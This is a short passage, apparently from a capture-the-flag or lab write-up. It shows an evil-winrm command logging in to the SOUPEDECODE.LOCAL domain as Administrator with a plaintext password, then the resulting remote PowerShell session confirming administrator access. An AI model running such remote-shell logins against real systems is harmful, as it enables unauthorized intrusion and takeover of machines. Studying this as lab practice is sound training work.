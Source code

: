 ```bash
evil-winrm -i SOUPEDECODE.LOCAL -u 'Administrator' -p '123456!'
```

Info:
```
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
soupedecode\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```
We now have `Administrator` level access!